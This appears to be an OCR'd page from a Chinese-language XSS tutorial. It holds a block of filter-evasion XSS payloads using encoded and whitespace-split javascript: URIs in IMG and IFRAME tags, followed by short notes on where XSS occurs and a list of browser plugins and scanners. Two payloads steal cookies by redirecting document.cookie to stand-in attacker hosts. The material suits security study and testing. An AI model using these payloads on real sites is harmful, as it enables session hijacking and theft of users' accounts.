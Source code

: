 ```
<IMG%20SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG%20SRC='javasc    ript:alert(document.cookie)'>
<IMG%20SRC="jav    ascript:alert('WXSS');">
<IMG%20SRC="jav&#x09;ascript:alert('WXSS');">
<IMG%20SRC="jav&#x0A;ascript:alert('WXSS');">
<IMG%20SRC="jav&#x0D;ascript:alert('WXSS');">
<IMG%20SRC="%20&#14;%20javascript:alert('WXSS');">
<IMG%20DYNSRC="javascript:alert('WXSS')">
<IMG%20LOWSRC="javascript:alert('WXSS')">
<IMG%20SRC='%26%23x6a;avasc%26%23000010ript:a%26%23x6c;ert(document.%26%23x63;ookie)'>
<IMG%20SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG%20SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG%20SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
'%3CIFRAME%20SRC=javascript:alert(%2527XSS%2527)%3E%3C/IFRAME%3E
"><script>document.location='http://cookieStealer/cgi-bin/cookie.cgi?'+document.cookie</script>
%22%3E%3Cscript%3Edocument%2Elocation%3D%27http%3A%2F%2Fyour%2Esite%2Ecom%2Fcgi%2Dbin%2Fcookie%2Ecgi%3F%27%20%2Bdocument%2Ecookie%3C%2Fscript%3E
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//></SCRIPT>!--<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>=&{}
'';!--"<XSS>=&{()}
```



## 0x0d XSS发生的位置

- GET型URL中的XSS：如果再URL中提交的参数值，在页面中显示，很有可能存在XSS。
- POST型表单中的XSS：如果在表单中提交的参数值，在页面中显示，很有可能存在XSS。
- JSON中的XSS：闭合json字符串，然后用分号隔开，加上alert(1);//，//注释了后面的json字符串。
- 自定义HTTP头中的XSS：如果在HTTP自定义头中提交的参数值，在页面中显示，很有可能存在XSS。



## 0x0e XSS工具

#### 1. 火狐中常用的XSS调试插件
- Hackbar（利用hackerbar的XSS编码功能：HTML实体编码和js String.fromCharCode编码）
- Firebug
- Tamper Data
- Live HTTP Headers
- Editor Cookie

#### 2. 工具挖掘XSS漏洞
- awvs
- netsparke
- appscan
- burp
- xsser
- xsscrapy
- brutexssr
- OWASP Xenotix/
